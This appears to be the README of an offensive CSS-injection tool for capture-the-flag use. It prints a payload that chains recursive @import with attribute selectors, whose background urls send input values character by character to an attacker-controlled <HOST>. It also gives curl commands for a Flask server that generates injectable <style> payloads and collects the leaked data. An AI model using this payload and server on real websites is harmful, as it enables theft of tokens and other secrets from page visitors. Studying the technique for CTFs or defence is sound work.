

# ONdemand csS injEctioN tool  
The service tool for CSS injection with recursive import. It will be useful for CTF.

This tool provides the following CSS injection payload, and server to listen for leaked data.

```css
@import "http://<HOST>/<key>/<index>/stage2.css";

input[value^="xa"]:first-child {
    background: url("http://<HOST>/<key>/leak/xa");
}
input[value^="xb"]:first-child {
    background: url("http://<HOST>/<key>/leak/xb");
}
input[value^="xc"]:first-child {
    background: url("http://<HOST>/<key>/leak/xc");
}
...
```

CSS has a load priority and will not work as expected if you use import recursive normally. I solved it with the pseudo-class "first-child" chain.  
Reference: https://developer.mozilla.org/docs/Web/CSS/Specificity

## Dependency  
- Python 3.x
- Flask 1.0.3

## Usage  
### Deploy
```
$ pip install -r requirements.txt
```

### Startup service  
```
$ python3 src/onsen.py
```

When the service starts, `api_secret` is output on the console.

### Make payload  
```
$ curl -d 'c=<USAGE CHARS|default:A-Za-z0-9>&s=<TARGET CSS SELECTOR|default:input[value^="{leaked}"]>&key=<KEY|default:urandom(16).hex()>' http://<HOST>/<api_secret>/set
```

`{leaked}` is replaced by the characters set by `c` param.

#### e.g.)  
```
$ curl -d 's=input[value^="{leaked}"]#secret' http://<HOST>/<api_secret>/set
```

#### Output  
```
{
    "key": "<key>",
    "payload": "<style>@import'http://<HOST>/<key>/stage1.css'</style>"
}
```

Set the payload to the target page.

### Check leaked  
```
$ curl http://<HOST>/<api_secret>/get/<key>
```

#### Output  
```
{
    "run": true|false,
    "leaked": "<LEAKED DATA>"
}
```

### Screenshot  


## Debug  
```
$ FLASK_DEBUG=1 python3 src/onsen.py
```

*Warning: If you enable debug, you can access the page that the XSS vulnerability exists.*

## More information  
[src/onsen.py](src/onsen.py)

## Disclaimer  
Don't use on real world websites.
